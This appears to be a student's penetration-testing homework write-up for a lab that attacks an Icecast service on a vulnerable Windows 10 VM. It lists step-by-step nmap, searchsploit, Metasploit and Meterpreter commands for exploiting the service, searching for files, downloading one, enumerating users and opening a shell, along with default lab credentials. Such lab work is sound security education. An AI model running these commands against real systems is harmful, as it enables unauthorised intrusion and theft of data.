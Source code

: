 # Penetration Test Engagement

- you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings recipe and seceretfile.

- The deliverable for this engagement will be in the form of a report labeled Report.docx.

## Setup

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer.

  - Log onto the DVW10 machine (credentials IEUser:Passw0rd!) and wait for the Icecast application to popup.

  - Then click Start Server.

Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

## Scope

- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

- Since you've already been provided access to the network, OSINT won't be necessary.

## Lab Environment

For this week's homework, please use the following VM setup:

    - Attacking machine: Kali Linux root:toor

     - Target machine: DVW10 IEUser:Passw0rd!

### NOTE: You will need to login to the DVW10 VM and start the icecast service prior to beginning this activity using the following procedure:

After logging into DVW10, type "icecast" in the Cortana search box and hit Enter.
The icecast application will launch.
Click on Start Server.
You are now ready to being the activity.

### Deliverable

Once you complete this assignment, submit your findings in the following document:

![Report.md](./Readme.md)

Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

> Answer: nmap -sV 192.168.0.20

![Figure-1](./Images/Figure-1.PNG)

1. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

    - Run the SearchSploit commands to show available Icecast exploits.

> Answer: **searchsploit icecast**

1. Now that we know which exploits are available to us, let's start Metasploit:

    - Run the command that starts Metasploit:

> Answer: **msfconsole**

1. Search for the Icecast module and load it for use.

    - Run the command to search for the Icecast module:

> Answer: **search icecast**

    - Run the command to use the Icecast module:
Note: Instead of copying the entire path to the module, you can use the number in front of it.

> Answer: **use 0**

1. Set the RHOST to the target machine.

    - Run the command that sets the RHOST:

> Answer: **set RHOST 192.168.0.20**

![Figure-2](./Images/Figure-2.PNG)

1. Run the Icecast exploit.

    - Run the command that runs the Icecast exploit.

> Answer: **run**

    - Run the command that performs a search for the secretfile.txt on the target.

> Answer: **search -f *secretfile*.txt**

![Figure-3](./Images/Figure-3.PNG)

1. You should now have a Meterpreter session open.

    - Run the command to performs a search for the recipe.txt on the target:

> Answer: **search -f *recipe*.txt**

Bonus: Run the command that exfiltrates the recipe*.txt file:

> Answer: **download 'c:\Users\IEuser\Documents\Drinks.recipe.txt'**

![Figure-4](./Images/Figure-4.PNG)

1. You can also use Meterpreter's local exploit suggester to find possible exploits.

> Answer: **run post/multi/recon/local_exploit_suggester**

![Figure-5](./Images/Figure-5.PNG)

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

> Answer: **run post/windows/gather/enum_logged_on_users**

![Figure-6](./Images/Figure-6.PNG)

B. Open a Meterpreter shell and gather system information for the target.

> Answer: **shell**

C. Run the command that displays the target's computer system information:

> Answer: **systeminfo**

![Figure-7](./Images/Figure-7.PNG)
